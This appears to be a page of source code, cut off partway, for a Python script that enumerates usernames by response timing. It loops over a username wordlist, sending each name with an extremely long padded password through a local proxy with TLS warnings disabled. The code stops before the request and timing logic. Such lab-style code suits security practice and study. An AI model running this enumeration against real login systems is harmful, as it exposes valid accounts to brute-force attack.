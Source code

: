 # Username enumeration with different timing

## Username enumeration with different timing using Python

```python
import time
import requests, urllib3
import sys
from string import printable

urllib3.disable_warnings()

class AuthBruteForceUsername:

    def __init__(self):
        # get command line arguments
        self.args = sys.argv
        self.proxies = {
            "https": "https://0.0.0.0:8088"
        }
        self.req = requests.Session()
        self.password = ""
        self.username = ""

    def brute_force_username(self):
        print("🔮 Determining username")
        usernames = []
        with open("auth-timing/auth-timing-usernames") as f:
            usernames = f.readlines()
        end_times = []
        for x, username in enumerate(usernames):
            print(f"Trying username: {username.strip()}❓")
            # send request with form data: username, password
            self.username = username.strip()
            self.password = ".................................................." + \
                ".............................................................." + \
                ".............................................................." + \
                ".............................................................." + \
                ".............................................................." + \
                ".............................................................." + \
                ".............................................................." + \
                ".............................................................." + \
                ".............................................................." + \
                ".............................................................." + \
                ".............................................................." + \
                ".............................................................." + \
                ".............................................................." + \
                ".............................................................." + \
                ".............................................................." + \
                ".............................................................." + \
                ".............................................................." + \
                ".............................................................." + \
                ".............................................................." + \
                ".............................................................." + \
                ".............................................................." + \
                ".............................................................." + \
                ".............................................................." + \
                ".............................................................." + \
                ".............................................................." + \
                ".............................................................." + \
                ".............................................................." + \
                ".............................................................." + \
```